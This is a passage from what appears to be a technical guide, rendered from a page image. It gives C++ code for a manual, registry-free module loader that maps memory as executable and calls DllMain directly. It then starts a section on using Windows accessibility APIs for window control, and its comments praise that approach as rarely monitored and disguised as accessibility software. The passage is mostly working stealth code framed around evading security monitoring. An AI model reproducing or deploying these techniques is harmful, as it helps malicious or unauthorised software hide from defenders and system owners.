 ```cpp
        &viewSize,
        ViewUnmap,
        0,
        PAGE_EXECUTE_READ
    );
    
    if (!NT_SUCCESS(status)) {
        NtClose(hSection);
        return NULL;
    }
    
    // Close the section handle
    NtClose(hSection);
    
    // Manual process the relocations and imports
    if (!ProcessModuleLoadWithoutRegistry(baseAddress)) {
        NtUnmapViewOfSection(GetCurrentProcess(), baseAddress);
        return NULL;
    }
    
    // Run DllMain manually
    BOOL(WINAPI* DllMain)(HINSTANCE, DWORD, LPVOID);
    DllMain = (BOOL(WINAPI*)(HINSTANCE, DWORD, LPVOID))GetProcAddressManual(baseAddress, "DllMain");
    
    if (DllMain) {
        if (!DllMain((HINSTANCE)baseAddress, DLL_PROCESS_ATTACH, NULL)) {
            NtUnmapViewOfSection(GetCurrentProcess(), baseAddress);
            return NULL;
        }
    }
    
    return (HMODULE)baseAddress;
}
```

## 3. Legitimate Subsystem Leverage

### 3.1 Windows Accessibility API Usage for Window Control

```cpp
// Use accessibility APIs for window manipulation instead of direct API hooks
class AccessibilityWindowManager {
private:
    IUIAutomation* pAutomation;
    
public:
    AccessibilityWindowManager() : pAutomation(nullptr) {
        // Initialize UI Automation - this is legitimate and rarely monitored
        CoInitialize(NULL);
        CoCreateInstance(__uuidof(CUIAutomation), NULL, CLSCTX_INPROC_SERVER,
                         __uuidof(IUIAutomation), (void**)&pAutomation);
    }
    
    // Instead of hooking GetForegroundWindow/SetForegroundWindow,
    // use accessibility APIs for window management
    bool BringWindowToFront(const wchar_t* windowTitle) {
        if (!pAutomation) return false;
        
        // Find window by name - this appears as accessibility software
        IUIAutomationElement* pRoot = nullptr;
        pAutomation->GetRootElement(&pRoot);
        
```